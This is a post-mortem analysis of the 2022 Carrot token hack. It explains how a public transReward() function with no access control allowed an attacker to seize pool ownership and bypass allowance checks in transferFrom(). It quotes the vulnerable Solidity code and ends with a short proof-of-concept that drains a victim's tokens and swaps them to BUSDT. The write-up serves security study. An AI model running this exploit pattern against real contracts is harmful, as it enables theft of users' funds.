 # Carrot

![euler Image](../images/CarrotWhy.drawio.png)


## What's Carrot?
A rewards platform where users can earn bitcoin simply by supporting the brands and creators they love. Creators of all sorts
(writers, podcasters, open-source collectives...) can publish challenges to be carried out by their audiences and offer Bitcoin for their completion.

## Amount stolen
**$31,318 BUSDT**

2022-10-10

## Vulnerability
Insufficient access control


## Analysis

The Carrot token relies on `_allowances[sender][_msgSender()].sub(amount, "ERC20: transfer amount exceeds allowance")`
to prevent unapproved token transfers,

The `sub` function in the `beforetransfer` method will subtract the `amount` from the allowance. If the subtraction results
a value less than zero indicates that the transfer amount exceeds the allowance limit and will fail.

This pattern involves the **Action-Check** pattern, where you act first, in this case transferring tokens without explicitly checking for permission. 
And check afterwards, in the `sub` function on the allowances mapping.

This final check can be avoided if the `_msgSender()` on the `_isExcludedFromFee` mapping is set to true, 
giving the `_msgSender()` the ability to move any user's tokens at its will. 

```solidity
  function transferFrom(
    address sender,
    address recipient,
    uint256 amount
  ) public virtual override returns (bool) {
    _beforeTransfer(_msgSender(),recipient,amount);
    
    if(_isExcludedFromFee[_msgSender()]){
        _transfer(sender, recipient, amount);
        return true;
    }
    _transfer(sender, recipient, amount);
    _approve(
        sender,
        _msgSender(),
        _allowances[sender][_msgSender()].sub(
            amount,
            "ERC20: transfer amount exceeds allowance"
        )
    );
    return true;
  }
```

An address can be added to the `_isExcludedFromFee` mapping under the condition that the caller of a transfer is the owner of an 
external pool contract and the counter variable is set to 0. 
This counter variable serves as a safety measure, preventing any other party from adding their address after an exploit has executed this action.


```solidity
   function _beforeTransfer( address from,address to,uint256 amount) private{
  if(from.isContract())
  if(ownership(pool).owner() == from && counter ==0){
      _isExcludedFromFee[from] = true;
      counter++;
  }          
  _beforeTokenTransfer(from, to, amount);
}
```

The Pool address is set via the `onlyOwner initPool()` function on the token.

- To pass the `onlyOwner` check, we can gain acces of the contract by the following function:


```solidity
   function transReward(bytes memory data) public {
      pool.functionCall(data);
   }
```

It seems that the function lacks access control and is public for everyone. For the concluding step, the ownership of the pool contract is established by calling the `transReward()` function on the token with the selector `"0xbf699b4b"`, which in English is the "change 
owner" function and the desired address is specified as `"0x5575406ef6b15eec1986c412b9fbe144522c45ae"`.


# proof of concept (PoC)

```solidity
  // Call vulnerable transReward() to set this contract as owner. No auth control
  CARROT_TOKEN.transReward(abi.encodeWithSelector(0xbf699b4b, address(this)));
  
  // Call transferFrom() to steal CARROT tokens using the same amount used in the exploit
  CARROT_TOKEN.transferFrom(
      0x00B433800970286CF08F34C96cf07f35412F1161, address(this), 310_344_736_073_087_429_864_760
  );
  
  // Swap all stolen Carrot to BUSDT
  _CARROTToBUSDT();
```

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Carrot_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
